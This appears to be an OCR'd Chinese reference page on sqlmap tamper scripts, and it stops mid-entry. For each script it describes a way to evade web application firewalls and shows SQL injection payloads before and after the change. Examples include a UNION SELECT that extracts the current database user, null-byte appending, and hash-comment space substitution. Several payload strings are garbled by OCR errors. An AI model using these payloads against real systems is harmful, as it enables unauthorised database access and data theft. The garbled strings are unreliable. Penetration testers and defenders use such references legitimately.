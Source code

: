 ###  halfversionedmorekeywords.py

作用：当数据库为MySQL时绕过防火墙，在每个关键字之前添加MySQL版本 注释。

使用脚本前的语句为：

value' UNION ALL SELECT CONCAT (CHAR (58, 107, 112, 113, 58) , IFNULL (CAST (CURRENT USER () AS CHAR) , CHAR (32) ) , CHAR (58, 97, 110, 121, 58) ) , NULL, NULL# AND 'QDWa^'QDWa

使用脚本后，语句为：

value'/\*! 0UNION/\*! OALL/\*! OS ELECT/\*! 0CONCAT (/\*! 0CHAR (58, 107, 112, 113, 58) , /\*! OIFN ULL (CAST (/\*! OCURRENT USER () / \*! OAS/\*! OCHAR) , /\*! OCHAR (32) ) , /\*! OCHAR (58, 97, 110, 121, 5 8) ) , /\*! ONULL, /\*! ONULL#/\*! 0AND'QDWa'='QDWa

测试通过的数据库类型和版本为MySQL 4.0.18和MySQL 5.0.22。

###  space2morehash.py

作用：将空格替换为#号，并添加T随机字符串和换行符。

使用脚本前的语句为：

1 AND 9227=9227

使用脚本后，语句为：

1 %23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23 lujYFWfv %0A9227=9227

测试通过的数据库类型和版本为MySQL 5.1.41。

###  apostrophenullencode.py

作用：用非法双字节Unicode字符替换单引号。

使用脚本前的语句为：

1 ANDT='1

使用脚本后，语句为：

1 AND %00%271%00%27=%00%271

###  appendnullbyte.py

作用：在有效负荷的结束位置加载零字节字符编码。

使用脚本前的语句为：

1 AND 1=1

使用脚本后，语句为：

1 AND 1=1 %00

###  chardoubleencode.py

作用：对给定的Pay load全部字符使用双重URL编码（不处理已经编码的字 待）。

使用脚本前的语句为：
